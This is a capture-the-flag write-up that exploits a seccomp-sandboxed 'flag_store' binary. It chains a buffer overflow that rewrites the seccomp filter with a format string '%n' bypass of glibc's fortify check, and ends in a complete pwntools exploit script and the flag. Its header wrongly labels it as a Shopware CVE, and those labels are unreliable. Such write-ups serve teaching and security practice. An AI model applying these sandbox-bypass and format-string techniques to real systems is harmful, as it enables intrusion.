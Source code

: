 ```yaml
---
type: ctf
title: Shopware - CVE-2023-22731
tags: [CVE-2021-43062, Shopware]
date: 2023-08-19
author: Eno Leriand
featuredImage: https://repository-images.githubusercontent.com/131995661/48007500-eb3e-11e9-907a-ec69f0e53d05 
---
```


The program will read a secret string from "secret.txt" and store the string address on stack. Then it will use seccomp to create a whitelist of syscalls. We can analyze the filter by using [seccomp-tools](https://github.com/david942j/seccomp-tools):  

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x06 0x00 0x00 0x00000000  return KILL
```

So now the program are only allowed to use the following system calls: `exit`, `read`, `write`, `open` and `close`.  

After that the program will do the following ( pseudo code ) :  

```c
int cnt = 16;
int has_seccomp = 0;
while (cnt--)
{
    read(0, input, 96); // read user input
    if (!has_seccomp) init_seccomp(); // set up seccomp rule
    len = strlen(secret_string) + 1;
    for ( i = 0LL; ; i++ ) // check if input == secret_string
    {
        if ( len - 1 == i )
            goto LABEL_19;
        if ( secret_string[i] != input[i] )
            break;
    }
    puts("Wrong secret :/");
    if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
    _fprintf_chk(stderr, 1LL, input); // <-- format string vuln
    has_seccomp = 1;
}
```

We can spot a format string vulnerability @ line 19. Although the secret string's address is stored on stack, however the output of `_fprintf_chk` is set to stderr, so we can't use `%s` to leak the secret string.  

But there's still one way to bypass the check. At line 16:  

```c
if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
```

If we can overwrite the first character of the secret string to a null byte, and input a random string, both `strlen(secret_string)` and `i` will be `0`, thus bypass the check and will print out the flag.  

However this will require us to use the `%n` format string payload -- which in this case will be blocked by the seccomp filter:  

```
$ ./flag_store
%n
Wrong secret :/
[1]    5295 invalid system call  ./flag_store
```

Fortunately my teammate found that there's a buffer overflow vulnerability while reading the user input. We can input at most 96 chars to the buffer, while its size is only 32. Moreover, this make us able to overwrite the seccomp rule ! So then we overwrite the seccomp rule with a bunch of null bytes and send the `%n` character:

```
[*] Sending null bytes
[*] Sending fmt payload
[*] Switching to interactive mode
Wrong secret :/
Wrong secret :/
*** %n in writable segment detected ***
[*] Got EOF while reading in interactive
```

OK, so we successfully overwrite the seccomp rule, but still the `%n` payload was blocked by `_fprintf_chk`, which is a more secure version of `fprintf`. At this point I started to think that maybe we need to write some seccomp rules to bypass the format string check.

And so I started reading the [glibc source code](https://code.woboq.org/userspace/glibc/stdio-common/vfprintf.c.html#__readonly_area):

```c
................
    {                                                                      \
      extern int __readonly_area (const void *, size_t)                      \
        attribute_hidden;                                              \
      readonly_format                                                      \
        = __readonly_area (format, ((STR_LEN (format) + 1)              \
                                    * sizeof (CHAR_T)));              \
    }                                                                      \
  if (readonly_format < 0)                                              \
    __libc_fatal ("*** %n in writable segment detected ***\n");              \
}  
```

Hmmmm, looks like we'll have to make `readonly_format >= 0` so it won't call `__libc_fatal ("*** %n in writable segment detected ***\n");`. Let's trace into the [__readonly_area() function](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/readonly-area.c.html#__readonly_area):

```c
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
         available to this process (e.g., because it runs in a chroot
         environment.  Don't fail in this case.  */
      if (errno == ENOENT
          /* The kernel has a bug in that a process is denied access
             to the /proc filesystem if it is set[ug]id.  There has
             been no willingness to change this in the kernel so
             far.  */
          || errno == EACCES)
        return 1;
      return -1;
    }
    ...................
```

Ah ha ! We can see that `__readonly_area` will call `fopen()`, and see if its `errno` is equals to `EACCES` or `ENOENT`. **If so, it will return 1** !! Since we can write our own seccomp rule, we can totally make this happen !

So first we create our own seccomp rule:

```
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok # check the 3rd arg of open()
magic:
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```

Notice that in order to make `open("flag.txt", 0x80000)` ( in the `openflag()` function ) works normally, we'll have to add the rule `A == 0x1b6 ? magic : ok`. This indicates that if the 3rd argument of `open()` equals to `0x1b6`, return `ERRNO(13)`, otherwise allow the system call. I wrote this rule because I found that when `__readonly_area()` calls `fopen ("/proc/self/maps", "rce");`, the 3rd argument of `open()` was exactly `0x1b6`.  

By using the [asm](https://github.com/david942j/seccomp-tools#asm) feature of the seccomp-tools, we can generate the raw bytes of our seccomp rule:

```
$ cat ./rule 
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok
magic:
return ERRNO(13)
ok:
return ALLOW

$ seccomp-tools asm ./rule
" \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"

```

At last we apply our seccomp rule, exploit the format string vulnerability to bypass the check and get the flag:

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

# from brucepwn import *

HOST = "35.198.105.104"
PORT = 10000
ELF_PATH = "./flag_store"
LIBC_PATH = ""

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = elf.libc if not LIBC_PATH else ELF(LIBC_PATH)
if not libc: log.warning("Failed to load libc")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = elf.process() # elf.process(argv=[argv1, argv2,...])

    payload = "\x00"*0x20
    payload += " \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
    print "len:", len(payload)
    assert len(payload) <= 96
    r.sendline(payload)
    time.sleep(1)
    r.sendline("%128c%128c%hhn")
    time.sleep(1)
    r.sendline("1")
    r.interactive()


```

flag: `hxp{d0n7_w0rry_glibc_1_571ll_l0v3_y0u}`


First blood on this one ! WOOHOO ! 😎
